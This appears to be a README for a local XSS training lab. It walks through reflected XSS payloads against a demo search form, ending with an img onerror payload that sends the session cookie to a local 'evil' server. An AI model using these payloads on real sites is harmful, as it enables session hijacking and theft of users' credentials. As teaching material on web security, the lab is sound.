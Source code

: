 # Cross-site Scripting (XSS)



Change directory into the new folder:
```bash
cd xss
```

Install the project's dependencies using npm:
```bash
npm install
```

Now we can run the local web server using Node.js:
```bash
node server.js
```
If successful, you should see the following message: `Server listening at localhost:3000`. This means that a local web server is now running and is listening for requests at [localhost:3000](http://localhost:3000/). Open your browser and click the link.

You should see a simple search form. Enter some text then press enter (or click the "search" button). Notice how the search query you entered is shown in the page. This form might be vulnerable to an XSS attack. So let's test it ;)


## What is XSS?

From [OWASP](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)):

> Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted web sites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user.

XSS vulnerabilities are generally used to steal sensitive information (login credentials, authentication tokens, personal user data) as well as perform actions on behalf of authenticated users.


## Proof of Concept

Open the developer tools in your browser (F12) and open the "Console" sub-tab.

Copy/paste the following code into the console and run it:
```js
encodeURIComponent('<img src="does-not-exist" onerror="alert(\'hi!\')">');
```

![](screenshots/xss-screenshot-001.png)

Copy the output and paste it into the address bar so that the URL looks like this:
```
http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert('hi!')%22%3E
```
Or you can click [this link](http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert('hi')%22%3E).

If successful, you should see an alert pop-up that says "hi!".

Let's see what else we can do..


## Exploitation

Open the "Application" sub-tab in your browser's developer tools. Under "Storage" -> "Cookies", click "localhost:3000" to show the cookies being saved by the browser for this website.

![](screenshots/xss-screenshot-002.png)

Notice how there is a cookie named "connect.sid". This is a session cookie set by our local web server. Is it possible for us to access this via the XSS vulnerability? Let's try. Repeat the steps from the "Proof of Concept" section above, but with the following code:
```html
<img src="does-not-exist" onerror="alert(document.cookie)">
```
Encode the above HTML and use it as the search query, or [try this link](http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert(document.cookie)%22%3E).

If successful, you should see the contents of the session cookie printed in an alert pop-up.

Now before continuing, we will need to start our "evil" web server. Run the following command in a second terminal window:
```bash
node evil-server.js
```

And now try to use the following code with the XSS vulnerability to steal the session cookie:
```html
<img src="does-not-exist" onerror="var img = document.createElement(\'img\'); img.src = \'http://localhost:3001/cookie?data=\' + document.cookie; document.querySelector(\'body\').appendChild(img);">
```
Encode the above HTML and use it as the search query, or [try this link](http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22var%20img%20%3D%20document.createElement(%27img%27)%3B%20img.src%20%3D%20%27http%3A%2F%2Flocalhost%3A3001%2Fcookie%3Fdata%3D%27%20%2B%20document.cookie%3B%20document.querySelector(%27body%27).appendChild(img)%3B%22%3E).

Check the terminal window of the evil server. Do you see the contents of the session cookie?